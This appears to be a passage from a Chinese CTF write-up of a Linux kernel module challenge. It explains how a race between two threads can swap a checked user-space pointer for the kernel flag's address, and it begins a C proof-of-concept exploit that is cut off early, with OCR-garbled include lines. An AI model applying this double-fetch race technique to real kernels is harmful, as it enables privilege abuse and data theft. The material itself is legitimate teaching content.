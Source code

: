 ```
    printk("Wrong!\n");
    break;
}

```

### 1. 检测：

先检测传入的数据的地址是否是在用户空间，长度是否为 flag 的长度，传入的所有数据是否处在用户空间。如果都是，再判断传入的数据与 flag 是否一致，一致则打印 flag，否则打印 Wrong 然后退出。

 

这么一看好像无法得到 flag，首先 flag 我们不知道，是硬编码在内核模块中的。其次就算无法传入内核模块中的地址，意味着就算我们获得了内核模块中 flag 的地址和长度，传进去也会判定失败。

### 2. 漏洞

但是这是建立在一个线程中的，如果是多个线程呢。在我们传入用户空间的某个数据地址和长度之后，先进入程序的 if 语句，也就是进入如下 if 语句

```
if(chk_range_not_ok(userFlagAddr,flagObj->len)
   &&chk_range_not_ok(userFlagObjAddr,0)
   &&(flagObj->len == strlen(flag)))

```

然后在检测 flag 数据之前，也就是如下 if 语句之前，启动另外一个线程把传入的该数据地址给改成内核模块的 flag 的数据地址，这样就能成功打印 flag 了。

```
if(!strncmp(flagObj->flagUser,flag,strlen(flag)))

```

那么就直接给出 POC，这里涉及到一些线程的操作，可以自己学习一下。

### POC

```
// gcc -static exp.c -lpthread -o exp
#include //char *strstr(const char *haystack, const char *needle);
//#define _GNU_SOURCE         /* See feature_test_macros(7) */
//char *strcasestr(const char *haystack, const char *needle);
#include #include #include #include #include #include #include #include #include #include #include #define TRYTIME 0x1000
 
 
struct flagStruct
{
    int len;
    char* flagUseAddr;
};
struct flagStruct flagChunk;
 
 
//open dev
int openDev(char* pos);
 
 
char readFlagBuf[0x1000+1]={0};
int finish =0;
unsigned long long flagKerneladdr;
void changeFlagAddr(void* arg);
 
int main(int argc, char *argv[])
{
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
```